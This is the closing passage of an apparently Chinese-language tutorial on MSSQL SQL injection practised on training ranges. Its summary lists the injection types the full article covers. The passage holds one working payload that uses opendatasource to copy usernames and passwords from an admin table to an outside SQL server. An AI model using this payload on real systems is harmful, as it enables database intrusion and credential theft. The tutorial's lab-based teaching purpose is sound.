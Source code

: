 ```
?id=1';insert into opendatasource('sqloledb','server=SQL5095.site4now.net,1433;uid=DB_14DC18D_test_admin;pwd=123456;database=DB_14DC18D_test').DB_14DC18D_test.dbo.data select id,username,passwd from  admin -- qwe

```

[![](https://p0.ssl.qhimg.com/t01b7ef0a0f00234293.png)](https://p0.ssl.qhimg.com/t01b7ef0a0f00234293.png)

[![](https://p4.ssl.qhimg.com/t01ce04ab44180c2881.png)](https://p4.ssl.qhimg.com/t01ce04ab44180c2881.png)



## 0x08 总结

```
完成这篇文章共费时1周，主要花时间在环境搭建以及寻找在线靶场。全文从显错注入、报错注入到盲注和反弹注入，几乎涵盖了所有MSSQL注入类型，若有所遗漏还请联系我，我必将在原文基础上进行改进。因为能力有限，本文未进行太多了原理描述，也因为SQL注入原理市面上已经有很多文章进行了讲解，所以文章最终以实战注入作为重心开展，讲述找寻到注入点后在如何在多种情况下获取数据。

靶场采用墨者学院、掌控安全，以及MSSQL-sqli-labs靶场，实际攻击时还需要考虑waf绕过等，后续会计划完成一篇针对waf绕过和提权getshell的文章，敬请期待～
```
